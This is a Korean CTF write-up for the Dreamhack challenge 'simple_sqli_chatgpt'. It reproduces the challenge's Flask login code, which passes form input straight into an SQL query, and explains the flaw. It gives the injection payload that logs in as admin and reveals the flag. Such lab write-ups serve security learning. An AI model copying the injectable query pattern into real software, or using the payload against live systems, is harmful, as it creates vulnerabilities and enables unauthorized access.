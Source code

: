 # simple_sqli_chatgpt

## 개요
 - dreamhack simple_sqli_chatgpt 문제입니다.

## Preview
![image](https://github.com/ChCh0i/dreamhack/assets/108965611/a21785bb-acbd-4673-af82-91253932042f)
![image](https://github.com/ChCh0i/dreamhack/assets/108965611/fb7a073d-7d47-47aa-a5ee-fc4f0df8f0a6)

## Source
```
#!/usr/bin/python3
from flask import Flask, request, render_template, g
import sqlite3
import os
import binascii

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

DATABASE = "database.db"
if os.path.exists(DATABASE) == False:
    db = sqlite3.connect(DATABASE)
    db.execute('create table users(userid char(100), userpassword char(100), userlevel integer);')
    db.execute(f'insert into users(userid, userpassword, userlevel) values ("guest", "guest", 0), ("admin", "{binascii.hexlify(os.urandom(16)).decode("utf8")}", 0);')
    db.commit()
    db.close()

def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect(DATABASE)
    db.row_factory = sqlite3.Row
    return db

def query_db(query, one=True):
    cur = get_db().execute(query)
    rv = cur.fetchall()
    cur.close()
    return (rv[0] if rv else None) if one else rv

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    else:
        userlevel = request.form.get('userlevel')
        res = query_db(f"select * from users where userlevel='{userlevel}'")
        if res:
            userid = res[0]
            userlevel = res[2]
            print(userid, userlevel)
            if userid == 'admin' and userlevel == 0:
                return f'hello {userid} flag is {FLAG}'
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        return '<script>alert("wrong");history.go(-1);</script>'

app.run(host='0.0.0.0', port=8000)

```

## 취약점
 - 소스코드를 보면 userlevel을 유저의 입력값으로 데이터베이스 컬럼을 조회하는 구문을 확인할수 있습니다.
```
res = query_db(f"select * from users where userlevel='{userlevel}'")
```
 - 그리고 flag값을 받기위해선 userid == 'admin 이어야하고 userlevel이 0 이어야합니다.
```
if userid == 'admin' and userlevel == 0:
    return f'hello {userid} flag is {FLAG}'
```

## payload
```
0' and userid='admin' -- -
```

![image](https://github.com/ChCh0i/dreamhack/assets/108965611/97b4ce65-d78f-4793-a8d4-e55882d9aa94)
